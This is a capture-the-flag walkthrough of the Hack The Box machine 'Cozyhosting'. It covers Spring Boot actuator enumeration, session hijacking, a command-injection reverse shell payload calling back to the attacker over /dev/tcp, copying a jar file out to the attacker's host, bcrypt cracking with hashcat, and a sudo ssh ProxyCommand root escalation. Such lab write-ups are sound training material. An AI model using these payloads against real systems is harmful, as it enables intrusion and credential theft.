# Cozyhosting
- Easy Rated Box released on September 2, 2023
- Simple web application with an index and a login page

## Enumeration
    nmap -sCV 10.10.11.230

Reveals that port 80 HTTP and port 22 SSH are in the opened state.
Nmap also reveals the URL to http://cozyhosting.htb/

Added it to my /etc/hosts which will allow me to view the site.



Directory enumeration was also done

    gobuster dir -u http://cozyhosting.htb -w /usr/share/wordlists/common.txt 

Found an interesting admin page and error page. Admin page seems to be giving a 401 unauthorized error that redirects you back to the login page and error page is quite interesting.  



The error page gives me a generic error page saying "Whitelabel Error Page". 



I decided to google what that means and it's only specific to Spring Boot web applications.  



I researched it further and there is a bug in spring boot actuators. These actuators can reveal critical information about the system. <a href="https://www.veracode.com/blog/research/exploiting-spring-boot-actuators">Link</a> if you are interested in reading.  

I decided to enumerate more for these end points.

    gobuster dir -u http://cozyhosting.htb -w seclists/Discovery/Web-COntent/spring-boot.txt

Multiple end points were revealed here.



## Session Hijack

The one most interesting is /actuator/sessions this reveals an active session with kanderson.



The value next to it seems to be a session cookie. I decided to fire up Burp suite to perform a session hijack with this cookie to get to the admin site.  



And it worked, I got to the admin page.  



There's an interesting form at the bottom which allows me to setup the hostname and username to create a connection. I sent this to burp repeater to perform a command injection.   

I set the host to the localhost at 127.0.0.1 and the username to kanderson. It doesn't seem that kanderson is verified, but I did find that app with a uid of 1001 was hosting this.  



Netcat was fired up to listen on port 443 and injected a shorted version of a reverse shell command without any whitespaces.  



    host=127.0.0.1&username=app;`(sh)0>/dev/tcp/IP/port`
    exec >&0

It was a success, back in my terminal I was able to get into the app user.  



## Jar File and Other Users

Basic user enumeration was done `sudo -l` doesn't reveal any sudo priveleges for app user, but an interesting jar file was found to be run by app after running `ps aux`.  



The jar file has read permissions, my best guess was that there was credentials from the actuators/env I could find, so I exfiltrated the jar file back to my host.  




`cat /etc/passwd` also revealed there's also another user named `Josh`

The jar file contents were extracted and found the credentials for a postgres user.

    jar -xf target.jar



## Postgres

Shell upgrade was done for the app user and used the credentials to login to the postgres DB.  



In the postgres database, there seems to be a cozyhosting DB with a users table housing the admin credentials.



## Cracking the password

The encryption seems to be bcrypt, so I used hashcat to decrypt it and got the admin password



    hashcat -m 3200 hash1.txt /usr/share/wordlists/rockyou.txt

## Josh User and PE

After logging into Josh through SSH, basic user enumeration was done `sudo -l` and revealed I can use sudo on SSH.  

PE was done by creating a root shell through ProxyCommand. More can be read <a href="https://gtfobins.github.io/gtfobins/ssh/">here</a>

    sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x

